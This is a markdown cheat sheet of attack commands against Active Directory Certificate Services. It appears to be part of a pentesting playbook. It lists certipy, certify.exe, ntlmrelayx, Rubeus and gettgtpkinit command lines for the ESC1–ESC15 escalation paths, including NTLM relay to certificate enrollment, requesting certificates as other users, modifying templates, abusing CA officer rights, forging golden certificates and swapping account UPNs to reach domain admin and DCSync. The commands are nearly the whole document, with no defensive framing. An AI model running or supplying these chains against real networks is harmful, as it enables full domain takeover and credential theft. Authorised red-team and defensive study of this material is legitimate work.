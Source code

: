# ADCS

## Enumeration >>> Web enrollement || Vulnerable template || Vulnerable CA || Misconfigured ACL || Vulnerable PKI Object AC
- `certutil -v -dsTemplate`
- `certify.exe find [ /vulnerable]`
- `certipy find -u <user>@<domain> -p <password> -dc-ip <dc_ip>`
- Get PKI objects information
  - `certify.exe pkiobjects`
- Display CA information
  - `certutil -TCAInfo`
  - `certify.exe cas`

## Web Enrollment Is Up >>> Domain admin
- ESC8 >>> Pass the ticket >>> DCSYNC || LDAP shell
  - `ntlmrelayx.py -t http://<dc_ip>/certsrv/certfnsh.asp -debug -smb2support --adcs --template DomainController`
    - `Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt`
    - `gettgtpkinit.py -pfx-base64 $(cat cert.b64) <domain>/<dc_name>$ <ccache_file>`
  - `certipy relay -target http://<ip_ca>`
    - `certipy auth -pfx <certificate> -dc-ip <dc_ip>`

## Misconfigured Certificate Template
- ESC1 >>> Pass the certificate
  - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template '<vulnerable template name>'  -ca <ca_name> -upn <target_user>@<domain>`
  - `certify.exe request /ca:<server>\<ca-name>   /template:"<vulnerable template name>" [/altname:"Admin"]`
- ESC2 >>> ESC3
- ESC3
  - `certify.exe request /ca:<server>\<ca-name> /template:"<vulnerable template name>"`
    - `certify.exe request request /ca:<server>\<ca-name> /template:<template>  /onbehalfof:<domain>\<user> /enrollcert:<path.pfx> [/enrollcertpw:<cert-password>]`
  - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template '<vulnerable template name>'  -ca <ca_name>`
    - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template  '<vulnerable template name>'  -ca <ca_name> -on-behalf-of '<domain>\<user>' -pfx <cert>`
- ESC13 >>> Pass The Certificate (PKINIT)
  - `certipy req -u <user>@<domain> -p <password> -target <ca_server>  -template '<vulnerable template name>' -ca <ca_name>`
  - `certify.exe request /ca:<server>\<ca-name> /template:"<vulnerable template name>"`
- ESC15
  - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template '<version 1 template with enrolee flag>' -ca <ca_name> -upn <target_user>@<domain> --application-policies 'Client Authentication' #[PR 228]` >>> Pass the certificate (only Schannel)
  - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template '<version 1 template with enrolee flag>' -ca <ca_name> --application-policies 'Certificate Request Agent' # [PR 228]` >>> Pass the certificate
    - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template '<vulnerable template name>' -ca <ca_name> -on-behalf-of '<domain>\<user>' -pfx <cert>`


## Misconfigured ACL
- ESC4
  - write privilege over a certificate template
    - `certipy template -u <user>@<domain> -p '<password>' -template <vuln_template> -save-old -debug` >>> ESC1
    - restore template
      - `certipy template -u <user>@<domain> -p '<password>' -template <vuln_template> -configuration <template>.json`

- ESC7
  - Manage CA
    - `certipy ca -ca <ca_name> -add-officer  '<user>' -username <user>@<domain> -password <password> -dc-ip <dc_ip> -target-ip <target_ip>` >>> ESC7 Manage certificate
  - Manage certificate
    - `certipy ca  -ca <ca_name> -enable-template '<ecs1_vuln_template>' -username <user>@<domain> -password <password>`
      - `certipy  req -username <user>@<domain> -password <password> -ca <ca_name> -template '<vulnerable template name>' -upn '<target_user>'`
        - error, but save private key and get issue request
    - Issue request
      - `certipy ca -u <user>@<domain> -p '<password>' -ca <ca_name> -issue-request <request_id>`
        - `certipy req -u <user>@<domain> -p '<password>'  -ca <ca_name> -retreive <request_id>` >>> Pass the certificate

## Vulnerable PKI Object access control

- ESC5
  - Vulnerable acl on PKI >>> ACL
  - Golden certificate 
    - `certipy ca -backup -u <user>@<domain> -hashes <hash_nt> -ca <ca_name> -debug -target <ca_ip>`
      - `certipy forge -ca-pfx '<adcs>.pfx' -upn administrator@<domain>` >>> Pass the certificate

## Misconfigured Certificate Authority

- ESC6 @CVE@ >>> ESC1
  - Abuse ATTRIBUTESUBJECTALTNAME2 flag set on CA you can choose any certificate template that permits client authentication

- ESC11 >>> Pass the ticket >>> DCSYNC >>> Domain Admin
  - `ntlmrelayx.py -t rpc://<ca_ip> -smb2support -rpc-mode ICPR -icpr-ca-name <ca_name>` 
    - `Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt`
    - `gettgtpkinit.py -pfx-base64 $(cat cert.b64) <domain>/<dc_name>$ <ccache_file>`
  - `certipy relay -target rpc://<ip_ca> -ca '<ca_name>'`
    - `certipy auth -pfx <certificate> -dc-ip <dc_ip>`

## Abuse Certificate Mapping

- ESC9/ESC10 (implicit)
  - `certipy shadow auto -username <accountA>@<domain> -p <passA> -account <accountB>`
    - ESC9/ESC10 (Case 1)
      - `certipy account update -username <accountA>@<domain> -password <passA> -user <accountB> -upn Administrator` >>> reset accountB UPN
        - ESC9
          - `certipy req  -username <accountB>@<domain> -hashes <hashB> -ca <ca_name> -template <vulnerable template>`
        - ESC10 (case 1)
          - `certipy req  -username <accountB>@<domain> -hashes <hashB> -ca <ca_name> -template <any template with client auth>`
    - ESC10 (Case 2)
      - `certipy account update -username <accountA>@<domain> -password <passA> -user <accountB> -upn '<dc_name$>@<domain>'` >>> ESC10  Case1
  - reset accountB UPN
    - `certipy account update -username <accountA>@<domain> -password <passA> -user <accountB> -upn <accountB>@<domain>` >>> Pass The Certificate
      - [Kerberos Mapping] ESC9/ESC10(Case 1)
      - [Schannel Mapping] ESC9/ESC10 (Case 2)

- ESC14 (explicit)